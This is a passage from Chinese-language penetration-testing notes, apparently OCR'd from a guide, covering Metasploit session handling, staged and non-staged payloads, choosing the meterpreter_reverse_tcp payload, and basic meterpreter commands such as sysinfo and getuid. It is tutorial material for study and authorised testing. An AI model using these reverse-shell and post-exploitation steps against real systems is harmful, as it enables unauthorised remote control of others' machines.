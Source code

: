 成功后获得shell，使用Ctrl+z然后y将session置于后台，列举所有sessions，进入某个session，取消某个session

```armasm
sessions -l
sessions -i 2
sessions -k 2
```

后台监听和持续监听

```armasm
run -j
run -z
```

## 20.2 MSF载荷

### 20.2.1 分段与非分段载荷

查看载荷

```armasm
show payloads
```

一般看有_的是非分段，有/是分段载荷，例如

```armasm
shell_reverse_tcp 非分段
shell/reverse_tcp 分段
```

### 20.2.2 Meterpreter载荷

查看，使用，查看参数，在漏洞利用中使用

```armasm
show payloads

payload/linux/x64/meterpreter_reverse_tcp

set payload 11
show options
run
```

获得权限，查看帮助

```armasm
meterpreter > help
```

查看系统信息

```armasm
sysinfo
getuid
```
